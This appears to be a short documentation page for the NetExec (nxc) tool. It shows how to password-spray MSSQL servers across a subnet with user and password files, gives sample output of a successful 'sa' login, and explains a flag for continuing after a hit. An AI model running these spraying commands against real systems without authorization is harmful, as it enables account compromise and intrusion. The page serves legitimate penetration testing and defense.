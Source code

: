 # Password spraying

#### Password spraying (without bruteforce)

```
#~ nxc mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
MSSQL       10.10.10.59     1433   None             [-] ERROR(TALLY): Line 1: Login failed for user 'test1'.
MSSQL       10.10.10.59     1433   None             [+] sa:password (Pwn3d!)
```

{% hint style="info" %}
By default, nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
{% endhint %}
